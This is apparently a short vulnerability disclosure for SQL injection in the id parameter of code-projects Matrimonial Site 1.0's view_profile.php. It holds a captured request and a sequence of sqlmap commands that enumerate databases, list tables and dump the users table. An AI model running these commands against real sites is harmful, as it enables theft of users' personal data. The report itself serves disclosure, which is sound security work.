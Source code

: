 # tesc
Vulnerability Report: SQL Injection in code-projects Matrimonial Site 1.0
## Affected Component
- **File**: `/view_profile.php?id=1`
- **Vulnerability**: SQL Injection via the `id` parameter.

---

## Captured HTTP Request
```http
GET /view_profile.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search-id.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pvm9s24kls26lgqj0730spgclj
Connection: keep-alive
````
## Exploitation Details with Sqlmap Tool
Using sqlmap tool:
1. Enumerate Databases:
python sqlmap.py -r 1 -p id --batch --dbs
2. Select Target Database (matrimony):
python sqlmap.py -r 1 -p id --batch -D matrimony
3. List Tables in matrimony Database:
python sqlmap.py -r 1 -p id --batch -D matrimony -tables
4. Dump Data from users Table:
python sqlmap.py -r 1 -p id --batch -D matrimony -T users --dump
---
This will lead to leakage of user information.
